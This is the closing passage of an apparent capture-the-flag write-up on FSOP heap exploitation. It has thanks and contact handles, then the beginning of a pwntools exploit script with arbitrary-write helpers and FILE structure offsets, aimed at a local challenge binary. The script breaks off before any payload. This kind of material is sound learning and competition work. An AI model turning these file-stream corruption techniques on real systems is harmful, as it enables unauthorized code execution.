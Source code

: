 # Conclusion
I enjoy these challenges, and I have wanted to write about FSOP for a long time, so I'm grateful that I have time to solve some of them. At the same time, writing them has been a great exercise to keep my mind occupied. I wish I had more time to write about them, but some personal issues kept me away.

Thanks to [c4e](https://c4ebt.github.io/) for helping me review this post and for teaching me about the heap. Thanks also to my study-buddies [s1kr10s](https://s1kr10s.github.io/), [tothoxx](https://tothoxx.github.io/), and Vicho, that always encourage me to write more. 

If you habe any doubts or suggestion you can contact me on discord or telegram (@dplastico)

The final exploit code can be found below.

```python
#!/usr/bin/python3
from pwn import *
#break in fflush if needed to inspect the file stream
gs = '''
continue
'''
elf = context.binary = ELF('./chall')
context.terminal = ['tmux', 'splitw', '-hp', '70']
libc = elf.libc

def start():
    if args.GDB:
        return gdb.debug('./chall', gdbscript=gs)
    if args.REMOTE:
        return remote('127.0.0.1', 5555)
    else:
        return process('./chall')

r = start()
#r.timeout = 1
def flush():
    r.sendline(b"1")
    #r.recvuntil(b">")

def trick(offset, value):
    r.sendline(b"2")
#    sleep(1)
    r.sendlineafter(b"offset:", str(offset).encode())
    r.sendlineafter(b"value:", str(value))
    r.recvuntil(b">")


def write_addr(offset, addr):
    addr = p64(addr)
    for i in range(8):
        trick(offset+i, addr[i])

#========= exploit here ===================
# Setting the offsets for the filestream
_flags =0x0
_IO_read_ptr = 8
_IO_read_end = 0x10
_IO_read_base = 0x18
_IO_write_base = 0x20
_IO_write_ptr = 0x28
_IO_write_end = 0x30
_IO_buf_base = 0x38
_IO_buf_end = 0x40
_IO_save_base = 0x48
```